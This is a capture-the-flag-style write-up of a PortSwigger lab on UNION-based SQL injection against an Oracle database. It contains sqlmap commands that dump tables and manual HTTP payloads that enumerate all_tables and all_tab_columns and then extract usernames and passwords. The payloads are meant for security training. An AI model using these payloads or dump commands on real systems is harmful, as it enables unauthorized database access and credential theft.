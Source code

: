 # [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## tools

- sqlmap:
  - `sqlmap -r sqlmapr -p category -batch` => oracle
  - `sqlmap -r sqlmapr -p category -dbs -dbms=oracle -batch` => PETER
  - `sqlmap -r sqlmapr -p category -D PETER --tables -dbms=oracle -batch` => USERS_SBAUZS
  - `sqlmap -r sqlmapr -p category -D PETER -T USERS_SBAUZS --dump -dbms=oracle -batch`

## manual

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```sql
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
3. Finding a column containing text:

    ```sql
    GET /filter?category='UNION+SELECT+'s','s'+FROM+dual-- HTTP/1.1`
    ```

    - => both columns contain text

4. get all table names of oracle db:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://docs.oracle.com/database/121/REFRN/GUID-6823CD28-0681-468E-950B-966C6F71325D.htm#REFRN20286>

    ```sql
    GET /filter?category='UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables-- HTTP/1.1`
    ```

    - interesting table: `USERS_ZPJVMK`

5. get the names of the columns of the table `USERS_ZPJVMK`:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://docs.oracle.com/database/121/REFRN/GUID-F218205C-7D76-4A83-8691-BFD2AD372B63.htm#REFRN20277>

    ```sql
    GET /filter?category='UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_ZPJVMK'-- HTTP/1.1`
    ```

    - get 2 column names `PASSWORD_TEOTEK` and `USERNAME_WMHJBY`

6. Exploit:

    ```sql
    GET /filter?category='UNION+SELECT+PASSWORD_TEOTEK,USERNAME_WMHJBY+FROM+USERS_ZPJVMK-- HTTP/1.1`
    ```

    - got admin credentials

7. Login to admin account => Lab Solved
